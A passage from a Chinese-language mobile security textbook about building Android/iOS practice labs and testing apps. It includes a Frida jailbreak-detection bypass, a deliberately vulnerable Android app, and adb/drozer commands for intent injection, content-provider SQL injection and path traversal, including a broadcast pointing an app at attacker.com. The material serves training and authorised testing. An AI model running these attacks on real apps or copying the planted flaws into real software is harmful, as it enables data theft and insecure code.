echo "[3/8] 安装 jadx..."
if ! command -v jadx &>/dev/null; then
    JADX_VERSION="1.5.0"
    wget -q "https://github.com/skylot/jadx/releases/download/v${JADX_VERSION}/jadx-${JADX_VERSION}.zip"
    unzip -q "jadx-${JADX_VERSION}.zip" -d jadx
    sudo mv jadx/bin/* /usr/local/bin/
    sudo mv jadx/lib/* /usr/local/lib/ 2>/dev/null || true
    rm -rf jadx "jadx-${JADX_VERSION}.zip"
fi
echo "    jadx $(jadx --version 2>/dev/null || echo 'installed')"

# Python虚拟环境及工具
echo "[4/8] 创建Python虚拟环境..."
python3 -m venv ~/mobile-security-venv
source ~/mobile-security-venv/bin/activate

echo "[5/8] 安装Python安全工具..."
pip install --upgrade pip
pip install \
    frida-tools \
    frida \
    objection \
    androguard \
    mitmproxy \
    pyaxmlparser \
    androguard

# Docker版MobSF
echo "[6/8] 拉取MobSF Docker镜像..."
docker pull opensecurity/mobile-security-framework-mobsf

# 下载靶场应用
echo "[7/8] 下载练习靶场应用..."
mkdir -p ~/mobile-lab/apps
cd ~/mobile-lab/apps

wget -q -O diva-beta.apk \
    "https://github.com/payatu/diva-android/releases/download/v1.0/diva-beta.apk" || \
    echo "    [!] DIVA下载失败，请手动下载"

echo "[8/8] 创建常用脚本..."

# Frida快速启动脚本
cat > ~/mobile-lab/frida-start.sh << 'EOF'
#!/bin/bash
# frida-start.sh - 启动Frida Server
# 用法：在已Root的设备上运行

DEVICE_ARCH=$(adb shell getprop ro.product.cpu.abi | tr -d '\r')
FRIDA_VERSION=$(frida --version)

echo "[*] 设备架构: $DEVICE_ARCH"
echo "[*] Frida版本: $FRIDA_VERSION"

# 检查frida-server是否已运行
if adb shell "ps -e | grep frida-server" &>/dev/null; then
    echo "[+] frida-server已在运行"
else
    echo "[*] 启动frida-server..."
    adb shell "su -c 'killall frida-server'" 2>/dev/null
    adb shell "su -c '/data/local/tmp/frida-server &'"
    sleep 2
    echo "[+] frida-server已启动"
fi
EOF
chmod +x ~/mobile-lab/frida-start.sh

echo ""
echo "=========================================="
echo "  搭建完成！"
echo "=========================================="
echo ""
echo "激活Python环境: source ~/mobile-security-venv/bin/activate"
echo "启动MobSF:      docker run -it -p 8000:8000 opensecurity/mobile-security-framework-mobsf"
echo "靶场应用目录:    ~/mobile-lab/apps/"
echo ""
echo "下一步："
echo "  1. 安装Android Studio或配置独立SDK"
echo "  2. 创建模拟器（推荐API 30+，x86_64镜像）"
echo "  3. 将frida-server推送到设备"
echo "     adb push frida-server-${FRIDA_VERSION}-android-${DEVICE_ARCH} /data/local/tmp/"
echo "     adb shell 'chmod 755 /data/local/tmp/frida-server'"
```

### 18.15.2 iOS安全测试实验室

iOS安全测试的门槛高于Android——你需要一台Mac和（理想情况下）一台越狱设备。这是iOS安全测试最大的成本壁垒。

**硬件需求**：

| 配置项 | 最低配置 | 推荐配置 |
|--------|----------|----------|
| 主机 | Mac（实体或虚拟机） | MacBook Pro M1+ |
| iOS设备 | 任意iPhone（模拟器部分场景） | iPhone X以下（支持checkra1n） |
| iOS版本 | iOS 15+ | iOS 15.x-16.x（越狱支持好） |

**环境搭建**：

```bash
# ===== macOS环境准备 =====

# 1. 安装Xcode命令行工具
xcode-select --install

# 2. 安装Homebrew（如果没有）
/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)"

# 3. 安装iOS逆向基础工具
brew install \
    class-dump \       # 导出Objective-C头文件
    optool \           # Mach-O二进制修改工具
    ios-deploy \       # 命令行安装IPA到设备
    ldid \             # 伪签名工具
    imagemagick        # 图标处理等

# 4. Python工具
pip3 install \
    frida-tools \
    frida \
    objection \
    ios-trash \        # iOS文件清理
    needle             # OWASP iOS安全测试框架

# 5. 安装逆向工具（图形界面）
# Ghidra（免费）：https://ghidra-sre.org/
# Hopper Disassembler（付费，macOS首选）：https://www.hopperapp.com/
# IDA Pro（行业标准，昂贵）

# ===== 越狱设备配置 =====
# 推荐越狱工具（按iOS版本选择）：
# - checkra1n: iOS 12-14（硬件漏洞，A7-A11芯片）
# - Dopamine: iOS 15.0-15.4.1（A8-A15芯片）
# - palera1n: iOS 15-17（A8-A11芯片）

# 越狱后通过Cydia/Sileo安装以下必备插件：
# - Frida: 运行时注入框架
# - OpenSSH: 远程命令行访问
# - Cycript: Objective-C运行时交互
# - SSL Kill Switch 2: 全局禁用SSL Pinning
# - Flex 3: 运行时修改UI和方法
# - AppSync Unified: 安装未签名IPA
# - Filza File Manager: 文件系统浏览

# ===== 配置SSH到iOS设备 =====
# 默认密码：alpine（务必修改！）
ssh root@<iOS设备IP>
passwd   # 修改root密码
passwd mobile  # 修改mobile用户密码

# 使用iproxy将设备SSH转发到本地
iproxy 2222 22 &
ssh -p 2222 root@localhost
```

**iOS应用逆向工作流**：

```bash
# 1. 获取IPA文件
# 方式A：从设备导出
ssh root@<设备IP> "find /var/containers/Bundle/Application -name '*.app'" 
scp -r root@<设备IP>:/path/to/App.app ./
# 使用ios-deploy或fruitstrap安装

# 方式B：从iTunes/App Store获取
# 使用ipatool工具下载已购应用
brew install ipatool
ipatool download --account <Apple ID> --output ./downloads/

# 2. 解压分析
unzip -d Payload App.ipa
# Payload/App.app/ 结构：
# ├── Info.plist        # 应用配置（类比AndroidManifest）
# ├── App               # Mach-O主二进制
# ├── Frameworks/       # 嵌入的动态库
# ├── PlugIns/          # App Extensions
# ├── *.storyboardc/    # 编译后的界面文件
# └── *.lproj/          # 本地化资源

# 3. 导出Objective-C头文件
class-dump Payload/App.app/App > headers.txt
# 分析类名、方法名、属性名，理解应用架构

# 4. 使用Frida进行动态分析
frida -U -f com.example.app -l ios_hook.js --no-pause
```

```javascript
// ios_hook.js - iOS应用Frida Hook示例

// Hook NSUserDefaults（类似Android的SharedPreferences）
var NSUserDefaults = ObjC.classes.NSUserDefaults;
Interceptor.attach(NSUserDefaults['- objectForKey:'].implementation, {
    onEnter: function(args) {
        var key = ObjC.Object(args[2]).toString();
        this.key = key;
    },
    onLeave: function(retval) {
        if (!retval.isNull()) {
            var value = new ObjC.Object(retval).toString();
            console.log("[NSUserDefaults] " + this.key + " = " + value);
        }
    }
});

// Hook Keychain查询
var SecItemCopyMatching = Module.findExportByName("Security", "SecItemCopyMatching");
Interceptor.attach(SecItemCopyMatching, {
    onEnter: function(args) {
        var query = new ObjC.Object(args[0]);
        console.log("[Keychain] Query: " + query.toString());
    },
    onLeave: function(retval) {
        if (!retval.isNull()) {
            console.log("[Keychain] Result found");
        }
    }
});

// 绕过越狱检测
// Hook fileExistsAtPath: 检查常见越狱路径
var NSFileManager = ObjC.classes.NSFileManager;
Interceptor.attach(NSFileManager['- fileExistsAtPath:'].implementation, {
    onEnter: function(args) {
        this.path = ObjC.Object(args[2]).toString();
    },
    onLeave: function(retval) {
        var jailbreakPaths = [
            "/Applications/Cydia.app",
            "/usr/sbin/sshd",
            "/bin/bash",
            "/usr/bin/ssh",
            "/etc/apt",
            "/private/var/lib/apt/"
        ];
        for (var i = 0; i < jailbreakPaths.length; i++) {
            if (this.path === jailbreakPaths[i]) {
                console.log("[+] Jailbreak detection bypassed: " + this.path);
                retval.replace(0x0);  // 返回false
                return;
            }
        }
    }
});
```

### 18.15.3 自建靶场

当公开靶场不能满足你的需求时，可以自己构建漏洞应用。

**构建Android漏洞靶场的最小示例**：

```java
// VulnerableActivity.java - 一个包含多种典型漏洞的Activity
// 用于练习各种攻击技术

package com.example.vulnapp;

import android.app.Activity;
import android.content.Intent;
import android.database.sqlite.SQLiteDatabase;
import android.os.Bundle;
import android.util.Log;
import android.webkit.WebView;
import android.widget.EditText;
import android.webkit.WebViewClient;

public class VulnerableActivity extends Activity {

    // 漏洞1：硬编码密钥
    private static final String API_KEY = "sk-1234567890abcdef";
    private static final String DB_PASSWORD = "admin123";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        // 漏洞2：不安全的日志记录
        String userInput = getIntent().getStringExtra("username");
        Log.d("VulnApp", "User login attempt: " + userInput);

        // 漏洞3：SQL注入（拼接查询）
        SQLiteDatabase db = openOrCreateDatabase("users.db", MODE_PRIVATE, null);
        db.execSQL("SELECT * FROM users WHERE username='" + userInput + "'");

        // 漏洞4：WebView启用JavaScript且允许文件访问
        WebView webView = new WebView(this);
        webView.getSettings().setJavaScriptEnabled(true);
        webView.getSettings().setAllowFileAccess(true);
        webView.setWebViewClient(new WebViewClient());
        webView.loadUrl("file:///android_asset/index.html");
    }

    // 漏洞5：导出的Activity（处理敏感操作）
    // 在Manifest中 android:exported="true"
    protected void handlePayment() {
        // 客户端验证——应该在服务端完成
        boolean isPaid = checkLocalReceipt();
        if (isPaid) {
            unlockPremiumContent();
        }
    }

    private boolean checkLocalReceipt() {
        // 漏洞6：本地验证支付结果
        return getSharedPreferences("payments", MODE_PRIVATE)
            .getBoolean("is_paid", false);
    }
}
```

```xml
<!-- AndroidManifest.xml - 故意暴露的组件配置 -->
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.example.vulnapp">

    <!-- 漏洞7：危险权限 -->
    <uses-permission android:name="android.permission.READ_CONTACTS" />
    <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION" />
    <uses-permission android:name="android.permission.READ_SMS" />
    <uses-permission android:name="android.permission.CAMERA" />

    <application
        android:allowBackup="true"        <!-- 漏洞8：允许备份 -->
        android:debuggable="true"         <!-- 漏洞9：可调试 -->
        android:networkSecurityConfig="@xml/network_security_config">

        <!-- 漏洞10：导出的Activity无权限保护 -->
        <activity android:name=".VulnerableActivity"
            android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.VIEW" />
                <category android:name="android.intent.category.DEFAULT" />
            </intent-filter>
        </activity>

        <!-- 漏洞11：导出的ContentProvider -->
        <provider
            android:name=".UserContentProvider"
            android:authorities="com.example.vulnapp.provider"
            android:exported="true" />
    </application>
</manifest>
```

## 18.16 漏洞挖掘实战方法

### 18.16.1 系统性攻击面分析

不要随机测试——按照攻击面清单系统性地覆盖所有测试点。以下是基于OWASP MASTG的完整攻击面分析方法。



**移动应用攻击面清单**：

**1. 客户端攻击面**

| 测试项 | 测试方法 | 工具 |
|--------|----------|------|
| 本地数据存储 | 检查SharedPreferences/SQLite/文件系统中的敏感数据 | adb shell, Frida |
| 日志输出 | 监控logcat中的敏感信息输出 | adb logcat |
| 剪贴板 | 检查敏感数据是否写入全局剪贴板 | Frida Hook ClipboardManager |
| 应用截图 | 检查后台截图防护（FLAG_SECURE） | 截图测试 |
| 备份数据 | 检查allowBackup和备份内容 | adb backup |
| 组件导出 | 枚举所有导出组件并测试未授权访问 | drozer, adb |
| WebView | JavaScript接口暴露、文件访问、Intent Scheme | Frida, Chrome DevTools |
| 代码保护 | 反编译检查混淆程度、密钥硬编码 | jadx, apktool |
| 反逆向检测 | Root/模拟器/调试器/Frida检测 | Frida绕过脚本 |

**2. 网络攻击面**

| 测试项 | 测试方法 | 工具 |
|--------|----------|------|
| 传输加密 | 是否全站HTTPS，是否允许降级到HTTP | mitmproxy |
| 证书验证 | 是否正确验证服务端证书链 | mitmproxy + 自签名证书 |
| 证书固定 | 是否实施SSL Pinning | mitmproxy（连接被拒即表示Pinning） |
| 证书固定绕过 | 尝试Frida/Objection绕过 | frida, objection |
| API端点枚举 | 分析流量和代码中的所有API地址 | mitmproxy, jadx |
| 认证机制 | Token存储、刷新、过期处理 | mitmproxy + Frida |
| 敏感数据传输 | 请求/响应中的PII、Token、密钥 | mitmproxy |

**3. 服务端攻击面**

```text
服务端API测试清单：

认证测试：
□ 暴力破解登录接口（是否有速率限制？验证码？）
□ Token预测或重放
□ 密码重置流程中的逻辑缺陷
□ OAuth/SSO回调URL验证
□ JWT算法混淆（alg:none / RS256→HS256）

授权测试：
□ IDOR（修改用户ID访问他人数据）
□ 垂直越权（普通用户访问管理员API）
□ 水平越权（同级用户互相访问）
□ 功能级别权限检查

注入测试：
□ SQL注入（在所有用户输入参数中测试）
□ NoSQL注入（MongoDB操作符注入）
□ 命令注入（文件名、URL参数）
□ 模板注入（SSTI）

业务逻辑：
□ 竞态条件（并发请求绕过限制）
□ 负数/零值/超大值（支付金额篡改）
□ 流程跳过（跳过支付步骤直接确认订单）
□ 优惠券/积分重复使用
```

**4. 第三方组件攻击面**

| 测试项 | 具体方法 |
|--------|----------|
| SDK版本 | 从APK中提取第三方SDK及版本号，查询已知CVE |
| 广告SDK | 拦截广告SDK的网络请求，检查数据收集范围 |
| 分析SDK | 检查Firebase/Amplitude等分析SDK的配置泄露 |
| 推送服务 | 检查FCM/APNs的Token管理和Topic订阅权限 |
| 地图SDK | 检查API Key暴露、位置数据收集 |

### 18.16.2 安全测试报告模板

一份专业的安全测试报告是你的工作成果的最终体现。报告质量直接决定你的发现是否被认可和修复。

```markdown
# 移动应用安全测试报告

## 1. 测试概述

| 项目 | 内容 |
|------|------|
| 目标应用 | [应用名称] [版本号] |
| 测试平台 | Android [API级别] / iOS [版本] |
| 测试设备 | [设备型号] [OS版本] [是否越狱/Root] |
| 测试时间 | [起止日期] |
| 测试人员 | [姓名/团队] |
| 测试范围 | [黑盒/灰盒/白盒] |
| 参考标准 | OWASP MASVS v1.4 / OWASP MASTG |

## 2. 执行摘要

[2-3段话总结测试的整体发现。面向管理层阅读，避免过多技术术语。
说明测试了多少个功能模块，发现了多少个漏洞，
整体安全水平如何，最需要优先修复的问题是什么。]

### 漏洞统计

| 风险等级 | 数量 | 说明 |
|----------|------|------|
| 严重(Critical) | X | 可直接导致系统被完全控制 |
| 高危(High) | X | 可导致敏感数据泄露或权限提升 |
| 中危(Medium) | X | 需要一定条件才能利用 |
| 低危(Low) | X | 影响有限，但仍需修复 |
| 信息(Info) | X | 安全建议，非直接漏洞 |

## 3. 漏洞详情

### 漏洞 1: [漏洞标题]

| 属性 | 内容 |
|------|------|
| 风险等级 | 高 |
| CVSS评分 | 7.5 |
| 漏洞类型 | OWASP M4: 不安全的数据存储 |
| 影响组件 | com.example.app.database.UserDBHelper |

**漏洞描述**：
[详细描述漏洞是什么、为什么会存在、谁可能利用它]

**复现步骤**：
1. 安装目标应用并注册账户
2. 使用adb shell进入设备shell
3. 执行 `run-as com.example.app cat databases/users.db`
4. 观察到用户密码以MD5哈希形式存储（无盐值）

**漏洞证据**：
[附上截图、日志输出、网络请求等客观证据]

**影响分析**：
如果攻击者获取设备物理访问权限或通过其他漏洞获得shell访问，
可以提取所有用户的密码哈希。由于使用无盐MD5，
可通过彩虹表在数秒内还原明文密码。

**修复建议**：
1. 使用Android Keystore生成并存储加密密钥
2. 使用SQLCipher加密SQLite数据库
3. 密码存储使用bcrypt或Argon2算法（cost factor ≥ 12）

## 4. 风险矩阵

[用表格按业务功能分组汇总所有发现，便于开发团队按优先级修复]

## 5. 修复建议优先级

### 紧急（24小时内）
- [列出严重和高危漏洞的修复方案]

### 重要（1周内）
- [列出中危漏洞的修复方案]

### 建议（下次迭代）
- [列出低危和信息级别的改进建议]

## 6. 附录
- A. 测试工具版本清单
- B. 测试环境详细配置
- C. OWASP MASVS测试项覆盖矩阵
- D. 详细技术数据包（PCAP、Frida脚本等）
```

### 18.16.3 移动安全专项攻击技术

以下是移动安全特有的攻击技术，每项技术都需要专门练习。

**Intent注入攻击（Android）**：

```bash
# 利用导出的Activity接收外部Intent
# 如果应用信任来自Intent的数据而未验证来源，攻击者可构造恶意Intent

# 测试导出Activity是否接受外部输入
adb shell am start -n com.example.app/.ExportedActivity \
    --es "admin" "true" \
    --ez "is_admin" true

# 利用Deep Link进行攻击
# 如果应用注册了自定义Scheme（如 myapp://），尝试注入
adb shell am start -a android.intent.action.VIEW \
    -d "myapp://settings?reset_password=true&new_password=hacked"

# WebView Intent Scheme URL注入
# 如果应用的WebView处理intent:// URLs
adb shell am start -a android.intent.action.VIEW \
    -d "intent://scan/#Intent;scheme=zxing;end"
```

**Content Provider攻击（Android）**：

```bash
# 查询导出的ContentProvider
adb shell content query --uri content://com.example.app.provider/users

# 尝试SQL注入
adb shell content query --uri content://com.example.app.provider/users \
    --where "username=' OR 1=1 --"

# 读取文件（如果Provider暴露了文件路径）
adb shell content read --uri content://com.example.app.provider/files/../../shared_prefs/config.xml

# 使用drozer进行系统化测试
# 列出所有可访问的Content Provider
dz> run app.provider.finduri com.example.app

# 扫描可注入的Provider
dz> run scanner.provider.injection -a com.example.app

# 扫描可遍历文件系统的Provider
dz> run scanner.provider.traversal -a com.example.app
```

**Broadcast Receiver攻击**：

```bash
# 发送广播测试隐式接收器
# 如果应用注册了接收敏感操作的广播

# 发送普通广播
adb shell am broadcast -a com.example.app.ACTION_UPDATE_CONFIG \
    --es "server_url" "http://attacker.com"

# 发送有序广播（可篡改数据）
adb shell am broadcast -a com.example.app.ACTION_TRANSACTION \
    --es "amount" "0" --es "recipient" "attacker_account"

# 使用drozer枚举和测试
dz> run app.broadcast.send --action com.example.app.SECRET_ACTION --extra string key value
```

## 18.17 持续学习资源

### 18.17.1 推荐书籍

| 书名 | 作者/来源 | 适合阶段 | 核心内容 |
|------|-----------|----------|----------|
| 《Android安全攻防权威指南》 | 多位安全研究员 | 中级 | Android安全架构深度解析 |
| 《Mobile Application Hacker's Handbook》 | Dominic Chell等 | 中级-高级 | 移动安全综合指南，覆盖Android/iOS |
| 《iOS Application Security》 | David Thiel | 中级-高级 | iOS应用安全深入研究 |
| 《Android Hacker's Handbook》 | Joshua Drake等 | 高级 | Android底层安全与漏洞利用 |
| OWASP MSTG | OWASP社区 | 所有阶段 | 移动安全测试方法论权威参考（免费在线） |
| 《逆向工程核心原理》 | 李承远 | 中级 | 二进制逆向基础，Native逆向必备 |

### 18.17.2 在线资源与社区

**技术博客与文档**：

| 资源 | 内容特点 | 更新频率 |
|------|----------|----------|
| OWASP MSTG/MASTG | 移动安全测试权威指南 | 持续更新 |
| Google Android Security Bulletin | Android月度安全公告 | 每月 |
| Apple Security Research | Apple安全研究博客 | 不定期 |
| NowSecure Blog | 移动安全研究与工具 | 每周 |
| Quarkslab Blog | Android加固与逆向分析 | 不定期 |
| Check Point Research | 移动恶意软件分析 | 每周 |

**GitHub学习仓库**：

| 仓库 | 用途 | 星标 |
|------|------|------|
| OWASP/owasp-masvs | 移动应用安全验证标准 | 2k+ |
| OWASP/owasp-mastg | 移动安全测试指南 | 10k+ |
| ashishb/android-security-awesome | Android安全资源汇总 | 5k+ |
| djadmin/awesome-bug-bounty | 漏洞赏金资源 | 3k+ |
| mzfr/gist-hunter | 移动安全Gist收集 | - |

**视频教程**：

| 频道/课程 | 内容 | 平台 |
|-----------|------|------|
| LiveOverflow | 移动安全系列 | YouTube |
| John Hammond | CTF与逆向分析 | YouTube |
| Mobile Hacking Lab | Android/iOS攻防 | YouTube/Udemy |
| SANS SEC575 | 移动设备安全与道德黑客 | SANS（付费） |
| 看雪学院 | 中文Android安全课程 | 看雪论坛 |
| i春秋 | 中文移动安全实战 | i春秋平台 |

**社区论坛**：

| 平台 | 定位 | 语言 |
|------|------|------|
| Reddit r/androidsecurity | Android安全讨论 | 英文 |
| Reddit r/netsec | 综合网络安全 | 英文 |
| XDA Developers Security | Android设备安全 | 英文 |
| 看雪论坛 | 中文最大安全社区 | 中文 |
| 先知社区(Xianzhishequ) | 阿里安全研究平台 | 中文 |
| FreeBuf | 安全资讯与技术文章 | 中文 |

### 18.17.3 会议与培训

**国际会议**：

| 会议 | 重点 | 时间 |
|------|------|------|
| DEF CON (Mobile Hacking Village) | 实战攻防，非传统议题 | 每年8月 |
| Black Hat (Mobile Track) | 行业级安全研究 | 每年8月 |
| OWASP AppSec Conference | 应用安全最佳实践 | 每年多次 |
| MOSEC移动安全峰会 | 专注移动安全 | 每年 |
| POC安全峰会 | 韩国，漏洞利用技术 | 每年11月 |

**国内会议**：

| 会议 | 特点 |
|------|------|
| 看雪安全峰会 | 国内最权威的安全技术峰会 |
| 补天白帽大会 | 漏洞赏金社区大会 |
| KCon黑客大会 | 安全技术研究分享 |
| XCTF联赛 | CTF竞赛，移动安全题目 |

**认证培训**：

| 认证 | 机构 | 重点 | 费用 |
|------|------|------|------|
| SANS SEC575 | SANS | 移动安全全面测试 | ~$7,000+ |
| GMOB | GIAC | 移动设备安全 | ~$2,000+ |
| OSCP | OffSec | 通用渗透（含移动模块） | ~$1,500+ |
| eMAPT | INE | 移动应用渗透测试 | ~$400 |

### 18.17.4 练习建议

**每周练习计划模板**：

```text
周一：理论学习日
├── 上午：阅读一篇移动安全技术文章（OWASP/博客/论文）
├── 下午：学习一个新工具或技术点，做笔记
└── 产出：技术笔记或工具使用速查表

周三：动手实践日
├── 上午：完成一个靶场挑战（HTB/TryHackMe/DIVA）
├── 下午：编写或改进一个Frida Hook脚本
└── 产出：完成的挑战Writeup或脚本

周五：项目实战日
├── 上午：对一个开源应用进行安全分析
├── 下午：记录发现和分析过程
└── 产出：安全分析笔记（模拟报告格式）

周末：总结复盘日
├── 整理本周学习内容，更新知识库
├── 撰写技术博客或GitHub Writeup
├── 规划下周学习目标和靶场挑战
└── 回顾之前未解决的技术问题
```

**能力自测清单**：

每隔一个月，用以下清单检验自己的进步：

```text
入门阶段自测（通过=70%以上）：
□ 能在15分钟内完成一个APK的jadx反编译和关键代码定位
□ 能配置mitmproxy并成功拦截一个应用的HTTPS流量
□ 能读取应用的SharedPreferences和SQLite数据
□ 能识别AndroidManifest.xml中的安全风险
□ 能完成DIVA全部13个Challenge

进阶阶段自测：
□ 能编写Frida脚本Hook任意Java方法并修改返回值
□ 能绕过3种以上不同的SSL Pinning实现
□ 能修改Smali代码并成功重打包安装
□ 能在InsecureBankv2中发现并利用所有漏洞
□ 能完成OWASP UnCrackable Level 1和Level 2

高级阶段自测：
□ 能独立完成一个中等复杂度应用的OWASP MASVS全项测试
□ 能分析混淆后的APK并还原关键业务逻辑
□ 能使用IDA/Ghidra分析ARM SO文件
□ 能撰写符合行业标准的安全测试报告
□ 能在真实应用中发现至少一个安全漏洞
```

**常见练习误区**：

| 误区 | 正确做法 |
|------|----------|
| 只看教程不动手 | 每学一个技术点立即在靶场中练习 |
| 跳过基础直接学高级 | 先掌握静态分析→动态分析→高级逆向的递进路径 |
| 只用一种工具 | 掌握同一任务的多种工具实现，理解各自优劣 |
| 忽略报告撰写 | 每次练习都写分析笔记，养成报告习惯 |
| 单打独斗 | 加入安全社区，参加CTF比赛，阅读他人Writeup |
| 只关注Android | iOS安全也是必备技能，至少了解基本概念和工具 |
| 不关注防御 | 理解防御机制才能更好地绕过，攻防一体 |

## 本节小结

移动安全能力的提升没有捷径，唯有持续的学习和大量的实践。本节提供了从零基础到独立评估的完整练习体系：

1. **学习路径**：4个阶段（入门→进阶→高级→专家），每个阶段有明确的里程碑检验标准，确保你知道自己在哪里、下一步该学什么
2. **靶场环境**：从DIVA入门到OWASP UnCrackable进阶，再到HTB/TryHackMe的综合挑战，最后到真实漏洞赏金平台——循序渐进的练习阶梯
3. **实验室搭建**：Android和iOS双平台的完整环境搭建指南，包括一键脚本和自建靶场方法
4. **漏洞挖掘**：系统性的攻击面分析方法、专项攻击技术、报告撰写模板——不是教你找漏洞，而是教你如何系统性地思考安全问题
5. **持续进阶**：书籍、博客、社区、会议、认证——构建你的长期学习网络

记住：安全研究的核心能力不是工具使用，而是**系统性思维**和**持续好奇心**。工具会更新换代，但分析问题的思维方式永远不变。每次练习都问自己三个问题：这个漏洞为什么存在？它会造成什么影响？它应该如何修复？带着这样的思维去练习，你的成长速度会远超预期。
